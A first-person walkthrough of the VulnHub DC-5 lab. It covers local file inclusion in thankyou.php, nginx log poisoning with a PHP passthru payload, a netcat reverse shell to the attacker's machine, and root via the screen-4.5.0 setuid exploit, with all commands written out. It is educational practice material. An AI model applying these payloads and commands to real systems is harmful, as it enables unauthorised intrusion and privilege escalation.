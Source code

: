 # DC: 5
[VulnHub link](https://www.vulnhub.com/entry/dc-5,314/)  
By DCAU

* As with the first 4 iterations of the DC-series, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-5/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-5/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.11`.
* The host is running 2 services, HTTP at port 80 and rpcbind at port 111. Both ports are found to be open.
* Run `nmap -p- -A 10.0.2.11`:
![](/screenshots/dc-5/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an nginx web server running on port 80 (which is open), as with the previous iteration of the dc series.
* Opening `http://10.0.2.11` reveals a site with paragraphs of random sample texts greeting us:
![](/screenshots/dc-5/siteWebServer.jpg)
* At this point in time, I could not be more stuck. I tried using Burp Suite on the Contact form as was done in the previous walkthrough for DC-4, but to no avail.
* A hint that I got was that when I repeatedly submitted the Contact form, the copyright year at the bottom may differ:
![](/screenshots/dc-5/copyrightYears.jpg)
* It was either 2017, 2018, 2019 or 2020. Interesting. The copyright year on any of the other pages would be 2019.
* Even when I was repeatedly refreshing `http://10.0.2.11/thankyou.php` which had no parameters, the year was still changing. A contact form that is submitted would result in the URL being `http://10.0.2.11/thankyou.php?firstname=&lastname=&country=australia&subject=`.
* On hindsight, the only indication that I got from looking at the page source, is that the closing HTML tag for footer was rather out of place:
![](/screenshots/dc-5/contactFormSubmitPageSource.jpg)
* While I understood that we could modify the data (within the various options) being sent, what I did not know was that we could attempt our own options as well. Such an option would be `file`, where we would want to read the contents of specific files within the web server. It turns out that this vulnerability is called **Local File Inclusion** (LFI).
* After understanding this, we will now attempt to get the contents of `/etc/passwd`, by entering `http://10.0.2.11/thankyou.php?file=/etc/passwd`:
![](/screenshots/dc-5/etcPasswdFile.jpg)
* Interestingly, if we did not include any file to load in the parameter, the footer contents would disappear, i.e. no Copyright © 2019 would be retrieved.
* Also, `/etc/passwd` seems to be one of the common files used to test for LFI, because I guess virtually everyone would have that file on their web servers. Attempting to load a file that does not exist may lead us to be mistaken that LFI is not present.
* As much as we now know a list of users, we do not have a login page or ssh to attempt our logins.
* It turns out that to get our shell, we would have to exploit it through the *nginx access logs*.
* First, we have to find out where the access logs are located. A common location of the file is `/var/log/nginx/access.log`. Run: `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log`:
![](/screenshots/dc-5/nginxAccessLog.jpg)
* Note: For Apache2 web servers, the location is also likely to be the same, except that it would be found under the `apache2` directory in `/var/log` instead.
* We can now confirm that we are able to retrieve the access logs, which span many, many pages.
* I accessed `http://10.0.2.11/testing-out-that-i-am-able-to-read-the-access-logs`, just to test out what we know about the access logs - that these files record all requests processed by the server:
![](/screenshots/dc-5/nginxAccessLogTest.jpg)
* Note: The latest records are found at the bottom of the log file.
* Next, run `nc 10.0.2.11 80`, then enter `GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1`:
![](/screenshots/dc-5/emptyGETresponse.jpg)
* Note: I did not get back any response from my GET request, as compared to the walkthroughs by others who solved this challenge. They got back a response with status code `400 Bad Request`, where if you were to see the status code of my 'empty' GET request below, it is a `408 Request Timeut` error. Interesting.
* `passthru` allows us to execute an external program and display its raw output.
* Note: The browswer is not used to send this GET request because it will URL-encode the request, making it useless.
* Refresh the page, i.e. visit `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log` and we see that there is an 'empty' GET request, which is really the request made when we executed the PHP code:
![](/screenshots/dc-5/emptyGetRequest.jpg)
* After that, visit `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log&cmd=id` to confirm that we are able to run commands. We should expect to see the output of running `id` in the access logs, exactly at the log entry where our 'empty' GET request was made:
![](/screenshots/dc-5/commandExecutionAccessLogs.jpg)
* Note: Visiting the page with the parameter `cmd=id` immediately after sending the GET request via netcat will result in the output of `id` being displayed as the latest one. I visited a few pages in between for the example above to illustrate my point that the output of the command will only appear exactly where the netcat GET request was made.
![](/screenshots/dc-5/commandExecutionImmediateAccessLogs.jpg)
* Next, we will establish our shell to the web server by running a netcat listener `nc -v -l -p 1234` on our Kali VM terminal, and then visiting `http://10.0.2.11/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 10.0.2.4 1234 -c /bin/sh` on our browser:
![](/screenshots/dc-5/ncEstablishShell.jpg)
* Note: Replace `10.0.2.4` with the IP address of your Kali VM, `1234` with a port number of your choice just for the purpose of establishing this connection, and `/bin/sh` with `/bin/bash` if you would like (there is no difference between the 2 here).
* As expected, we are user `www-data` and it is time to find a way to escalate our privileges!
* Before we do so, run `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell.
* Next, run `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we can possibly exploit:
![](/screenshots/dc-5/setuidBinaries.jpg)
* Having executed this `find` command many times over our past challenges, we are more or less able to distinguish if there are any unusual binaries in the output. Here, it is `/bin/screen-4.5.0`.
* Googling about /bin/screen-4.5.0 led me to find out about the existence of 2 exploits relating to it on Exploit DB - [41152](https://www.exploit-db.com/exploits/41152) and [41154](https://www.exploit-db.com/exploits/41154). I could not quite understand the former, so we will use the latter.
* To upload the exploit script, run `python -m SimpleHTTPServer 4567` on our Kali VM, then navigate to `/tmp` on our netcat shell before running `wget http://10.0.2.4:4567/41154.sh`:
![](/screenshots/dc-5/uploadExploitScript.jpg)
* Note: According to [Python For Beginners](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/), the SimpleHTTPServer module that comes with Python is a simple HTTP server that provides standard GET and HEAD request handlers. An advantage with the built-in HTTP server is that we do not have to install and configure anything.
* Note: `4567` is also a port number of your choice just for the purpose of establishing this connection.
* Once it has been downloaded to the web server /tmp directory, `chmod +x 41154.sh` to give it executable permissions.
* Running `./41154.sh` results in an error as shown in the boxed-up area:
![](/screenshots/dc-5/failedScreenExploit.jpg)
* Perhaps the exploit script could not be executed in one shot. Let us try to split the original script into its respective files by ourselves, and do the compilation manually.
* First, we will do a quick analysis of the original exploit script:
![](/screenshots/dc-5/exploitCode.jpg)
* In summary, the original exploit script is split into 3 files - 2 .c files and 1 script.
* We will next compile the 2 respective .c files, bearing in mind that the `/tmp` parts of the command (as indicated in the original exploit script) are removed because my version of files are stored in `/root`.
* Compile `libhax.c` using the command `gcc -fPIC -shared -ldl -o libhax.so libhax.c`:
![](/screenshots/dc-5/libhaxCompilation.jpg)
* Compile `rootshell.c` using the command `gcc -o rootshell rootshell.c`:
![](/screenshots/dc-5/rootshellCompilation.jpg)
* We will name our script `screenroot.sh`, although you can name it otherwise. This name is the file name of the original exploit script.
![](/screenshots/dc-5/screenRootScriptModified.jpg)
* Time to upload all 3 files to the vulnerable web server:
1. `wget http://10.0.2.4:4567/libhax.so`
2. `wget http://10.0.2.4:4567/rootshell`
3. `wget http://10.0.2.4:4567/screenroot.sh`
![](/screenshots/dc-5/uploadExploitFiles.jpg)
* The status code `200 OK` tells us that the upload is successful.
* `chmod +x screenroot.sh` to give it executable permissions:
![](/screenshots/dc-5/filesInTmpDirectory.jpg)
* For some unknown reason, I am unable to run it on one of my devices. Apparently there is a wrong ELF class, which I am unable to diagnose:
![](/screenshots/dc-5/exploitFinalUnknownFailure.jpg)
* What you should rightfully see when you run `./screenroot.sh`:
![](/screenshots/dc-5/privilegeEscalated.jpg)
* Congratulations, we are now `root`! Head to `/root`, and our flag is found in `thisistheflag.txt`:
![](/screenshots/dc-5/flag.jpg)

# Other walkthroughs visited
1. https://bzyo.github.io/dc-5/